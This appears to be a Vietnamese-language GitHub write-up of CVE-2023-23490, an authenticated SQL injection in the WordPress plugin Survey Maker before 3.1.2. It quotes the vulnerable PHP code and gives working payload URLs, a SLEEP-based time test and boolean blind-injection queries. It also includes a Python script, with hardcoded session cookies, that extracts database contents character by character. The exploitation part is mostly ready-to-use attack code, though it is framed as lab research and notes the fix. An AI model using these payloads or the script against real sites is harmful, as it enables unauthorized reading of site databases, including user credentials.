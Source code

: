 # CVE_2023_23490
- Lỗ hổng Authenticated SQL Injection tại plugin Survey Maker 

```js
Survey Maker: CVE-2023-23490 - Authenticated SQL Injection
Reference: https://wordpress.org/plugins/survey-maker
Affected Versions: < 3.1.2
CVSSv3 Vector: CVSS:3.1/AV:N/AC:L/PR:L/UI:N/S:U/C:H/I:H/A:H
CVSSv3 Score: 8.8
```
- Plugin không escape tham số 'surveys_ids' tại hành động 'ays_surveys_export_json' khi đưa vào câu truy vấn SQL.
- Lỗ hổng yêu cầu cần được xác thực nhưng không cần phải là quản trị viên, những ai có chức năng 'subscriber' đều thực hiện được.

### Setup
- Wordpress 6.1.1
- Plugin Survey Maker 3.0.9

### Phân tích.
- Tại hành động ays_surveys_export_json ta có thể thấy hầu hết các câu truy vấn SQL đều được nối chuỗi và được kiểm soát từ bên ngoài.
```js
public function ays_surveys_export_json() {
        global $wpdb;

        $surveys_ids = isset($_REQUEST['surveys_ids']) ? array_map( 'sanitize_text_field', $_REQUEST['surveys_ids'] ) : array();
        $surveys_table = $wpdb->prefix . SURVEY_MAKER_DB_PREFIX . 'surveys';
        $survey_category_table = $wpdb->prefix. SURVEY_MAKER_DB_PREFIX . "survey_categories";
        $questions_table = $wpdb->prefix . SURVEY_MAKER_DB_PREFIX. 'questions';
        $questions_category_table = $wpdb->prefix . SURVEY_MAKER_DB_PREFIX . 'question_categories';
        $answers_table = $wpdb->prefix . SURVEY_MAKER_DB_PREFIX . 'answers';
        $sections_table = $wpdb->prefix . SURVEY_MAKER_DB_PREFIX . 'sections';
        if(empty($surveys_ids)){
            $where = '';
        }else{
            $where = " WHERE id IN (". implode(',', $surveys_ids) .") ";
        }
        $sql_survey_categories = "SELECT * FROM ".$survey_category_table;
        $survey_categories = $wpdb->get_results($sql_survey_categories, 'ARRAY_A');
        $survey_all_categories = array();
        foreach ($survey_categories as $survey_categories_key) {
            $survey_all_categories[$survey_categories_key['id']] = $survey_categories_key['title'];
        }
        $sql_surveys = "SELECT * FROM ".$surveys_table.$where;
        $surveys = $wpdb->get_results($sql_surveys, 'ARRAY_A');
        $data = array();
        $data['ays_survey_key'] = 1;
        $data['surveys'] = array();
        foreach ($surveys as $survey_key => &$survey) {
            $questions_id = trim($survey['question_ids'], ',');
            $survey_cat_ids = explode(',' , $surveys[$survey_key]['category_ids']);
            foreach ($survey_cat_ids as $survey_cat_key) {
                $surveys[$survey_key]['survey_categories'][$survey_cat_key] = $survey_all_categories[$survey_cat_key];
            }
            unset($survey['id']);
            unset($survey['category_ids']);
            if(empty($questions_id)){
                $survey["questions"] = array();
            }else{
                $sql_sections = "SELECT id,title,ordering FROM ".$sections_table." WHERE id IN (". esc_sql( $survey['section_ids'] ) .")";
                $sections = $wpdb->get_results($sql_sections, 'ARRAY_A');
                $sql_question_cat = "SELECT * FROM ".$questions_category_table;
                $questions_categories = $wpdb->get_results($sql_question_cat, 'ARRAY_A');
                $categories = array();
                foreach ($questions_categories as $question_key) {
                    $categories[$question_key['id']] = $question_key['title'];
                }
                $sql_questions = "SELECT * FROM ".$questions_table." WHERE id IN (". esc_sql( $questions_id ) .")" ;
                $all_questions = $wpdb->get_results($sql_questions, 'ARRAY_A');
                $cat_ids = '';
                foreach ($all_questions as $key => &$question) {
                    $all_questions[$key]['answers'] = $this->get_question_answers($question['id']);
                    $cat_ids = explode(',' , $all_questions[$key]['category_ids']);
                    foreach ($cat_ids as $cat_key) {
                        $all_questions[$key]['question_categories'][$cat_key] = $categories[$cat_key];
                    }
                }
            }
            $survey['sections'] = $sections;
            $survey['questions'] = $all_questions;
        }        
            $data['surveys'] = $surveys;

        $response = array(
            'status' => true,
            'data'   => $data,
            'title'  => 'surveys-export',
        );
        echo json_encode($response);
        wp_die();
    }
```

- Đặt breakpoint tại 

![Screenshot 2023-01-21 145827](https://i.imgur.com/j0FVhJD.png)

- Biến global $wpdb được dùng để thực hiện các câu truy vấn trong wordpress nên dòng tiếp theo sẽ là thực thi câu truy vấn.
- Thực hiện với hành động 
```js
http://localhost/wordpress-6.1.1-vi/wordpress/wp-admin/admin-ajax.php?action=ays_surveys_export_json&surveys_ids[0]=1
```
![Screenshot 2023-01-21 150332](https://i.imgur.com/senysuy.png)
- Khi đó câu SQL được thiết lập sẽ là

```js
$sql_surveys = "SELECT * FROM wp_ayssurvey_surveys WHERE id IN (1)"
```
- Có thể thấy ta hoàn toàn kiểm soát được giá trị của \$surveys_ids vì không ép kiểu nguyên và \$sql_surveys sẽ được nối chuỗi với \$where thông qua
```js
$surveys_ids = isset($_REQUEST['surveys_ids']) ? array_map( 'sanitize_text_field', $_REQUEST['surveys_ids'] ) : array();
...
if(empty($surveys_ids)){
    $where = '';
}else{
    $where = " WHERE id IN (". implode(',', $surveys_ids) .") ";
}
```

### Khai thác
- Payload:
```js
http://localhost/wordpress-6.1.1-vi/wordpress/wp-admin/admin-ajax.php?action=ays_surveys_export_json&surveys_ids[0]=1)+AND+(SELECT+1+FROM+(SELECT(SLEEP(3)))a)--+-
```
- Khi đó câu truy vấn sẽ là:
![Screenshot 2023-01-21 150956](https://i.imgur.com/K76BEtX.png)

### Tham khảo
- Có thể khai thác qua sqlmap nhưng để nâng cao trình độ thì tấn công qua blind sql như sau.
- Kiểm tra độ dài và tên database (Ở đây dùng MySQL và tên DB là 'wordpress')
- Payload:
```js
- /admin-ajax.php?action=ays_surveys_export_json&surveys_ids[0]=1)+and+length(select+database())=9%23
- /admin-ajax.php?action=ays_surveys_export_json&surveys_ids[0]=1)+and+(substring((select+database()),1,1)=CHAR(119))%23
```
- Sau đó kiểm tra lần lượt từng cột và nội dung một nhưng mà dùng sqlmap cho nhanh.
- Kết quả 
![Screenshot 2023-01-21 151736](https://i.imgur.com/PfCfMjD.png)
##### Code tham khảo
- Đoạn code tham khảo check DB name hay column và rows.
```py
import sys, requests, urllib.parse, string

# query = sys.argv[1]
query = "database()"
lent = 10
url = 'http://localhost:80/wordpress-6.1.1-vi/wordpress/wp-admin/admin-ajax.php?action=ays_surveys_export_json&surveys_ids[0]=1'
headers = {
    'Cookie': 'wordpress_826614356389d062a546b55d74431192=luk6785%7C1674449032%7CR6aa2TdnC97Dnj9sWvxf7HaZ2SR4ahAlArx3kajk2WR%7Cc5deb082acb4d6af201d4674ff456217dff0f346ff65c7fe01483bfdd0a5c049; wordpress_test_cookie=WP%20Cookie%20check; wordpress_logged_in_826614356389d062a546b55d74431192=luk6785%7C1674449032%7CR6aa2TdnC97Dnj9sWvxf7HaZ2SR4ahAlArx3kajk2WR%7Ca1311197b950614b90160060ecf4996356793fa458592f778020435920deee90; wp-settings-time-1=1674276234'
}

def get(query=''):
    global len, url, headers
    result = ''
    for i in range(1,lent+1):
        for c in range(34,120):
            try:
                payload = ")+and+substring((select+%s),%d,1)=CHAR(%d)%%23"%(query, i, c)
                print(url+payload)
                resp = requests.get(url+payload, headers=headers)
                if len(resp.text) != 81:
                    print("Found: %s"%chr(c))
                    result += chr(c)
                    break
            except:
                print("An exception occurred")
    return result

print(get(query))
```

### Bản 3.1.2
- Hiện tại phiên bản 3.1.2 đã xoá chức năng ays_surveys_export_json nên có thể update lên lí do vì sao xoá hay update thì sẽ nghiên cứu tiếp.
![Screenshot 2023-01-21 153119](https://i.imgur.com/fHc1sWr.png)